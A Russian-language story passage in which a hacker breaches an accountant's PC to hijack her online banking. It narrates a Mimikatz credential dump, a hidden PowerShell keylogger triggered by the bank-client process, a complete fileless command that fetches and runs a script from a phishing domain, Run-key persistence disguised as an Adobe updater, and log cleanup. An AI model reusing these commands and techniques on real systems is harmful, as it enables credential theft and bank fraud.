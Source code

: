 На чёрном экране консоли побежали строки. Система выплёвывала дамп учётных данных. Никита вглядывался в текст, его взгляд профессионально выхватывал нужные блоки. Логин и пароль от Windows: T․Matveeva и предсказуемый Matveeva1969. Пароль от почты. Данные для бухгалтерского форума. Полезные, но второстепенные трофеи. Он прокручивал вывод дальше, ища заветную строку, связанную с банк-клиентом. Но её не было.

Он просмотрел дамп ещё раз. Внимательнее. Ничего. Абсолютно ничего, что могло бы быть ключом от системы ДБО. В животе будто провернулся ледяной бур. План «А» давал сбой. Система не сохраняла пароль в памяти. Его нужно было вводить каждый раз. А это значит…

Он запустил команду tasklist, чтобы увидеть список запущенных процессов. Его взгляд зацепился за несколько строчек: csp-cs․exe, rtcs․exe. Процессы, связанные с криптозащитой. Чтобы подтвердить свою догадку, он ввёл длинную команду на PowerShell, запрашивающую список подключённых USB-устройств. Система послушно выдала список. Мышь. Клавиатура. И вот она, последняя строка: Aladdin Knowledge Systems JaCarta.

Чёрт. USB-токен. Это всё усложняло. Просто украсть пароль недостаточно. Стандартные методы здесь не сработают. Первый барьер, первая стена, о которую он ударился.

Фрустрация длилась не больше десяти секунд. Это не провал, это просто техническая задача, требующая другого решения. Он молча закрыл окно с бесполезным дампом от Mimikatz. План «А» провалился. Что ж, для этого и существует план «Б».

Никита работал с холодной, отстранённой концентрацией. Он был уже не просто хакером, а конструктором, создающим изощрённый шпионский инструмент прямо внутри вражеской системы. Перед ним был код его собственного скрипта на PowerShell. Он состоял из двух частей. Первая — кейлоггер, который перехватывал нажатия клавиш. Вторая часть — скриншотер, который делал снимок экрана каждые три секунды.

Но главная его хитрость была в другом. Скрипт не работал постоянно. Это было бы слишком шумно. Никита добавил в код триггер: скрипт находился в спящем состоянии и активировался только при запуске процесса с именем bank_client․exe. Как только жертва открывала программу банк-клиента, ловушка захлопывалась.

Он ещё раз пробежался глазами по коду, внёс пару мелких правок, чтобы обфусцировать его ещё сильнее, и сохранил. Теперь нужно было доставить его на машину Тамары Игоревны. Он выбрал технику fileless malware. Скрипт не будет сохраняться на жёсткий диск. Вместо этого он будет загружен напрямую в оперативную память. Никита разместил файл скрипта на своём фишинговом домене, замаскировав его под updater․ps1. Затем, в командной строке на компьютере жертвы, он ввёл одну-единственную, но очень длинную команду: powershell "IEX (New-Object Net․WebClient)․DownloadString('http://1c-buhupdate-pro․com/updater․ps1')".

Он нажал Enter. Команда ушла. Несколько секунд ничего не происходило. Никита невольно задержал дыхание и начал грызть ноготь на большом пальце — единственный жест, выдававший его напряжение. Затем в консоли появилось подтверждение: скрипт был загружен и исполнен.

Оставался последний шаг: обеспечить выживаемость. Если Тамара Игоревна перезагрузит компьютер, скрипт исчезнет. Нужно было закрепиться в системе. Никита открыл редактор реестра Windows и создал новый ключ в ветке автозагрузки HKCU\Software\Microsoft\Windows\CurrentVersion\Run. Он назвал ключ Adobe Acrobat Update Checker, а в качестве значения прописал ту же самую команду. Теперь при каждом входе в систему ловушка будет незаметно перезаряжаться.

Работа была сделана. Он аккуратно закрыл все окна, почистил логи и завершил активную сессию. Нельзя постоянно висеть на машине, это повышает риск обнаружения. Он откинулся на спинку кресла. Всё. Капкан установлен, взведён и замаскирован.

Теперь снова предстояло ждать. Но это было уже не пассивное и нервное бдение, а выдержка охотника у поставленного капкана. Он посмотрел на часы. 12:30. Впереди был обед и вторая половина рабочего дня. Скорее всего, она будет проводить платежи ближе к вечеру. У него было несколько часов. Он встал, прошёлся по комнате, разминая затёкшие мышцы. Взгляд упал на гору пустых контейнеров из-под еды. Он поморщился, собрал их в пакет и впервые за несколько дней вышел из квартиры, чтобы дойти до мусорных баков. Воздух на улице был влажным и холодным, но после спёртой атмосферы его берлоги он казался почти свежим.
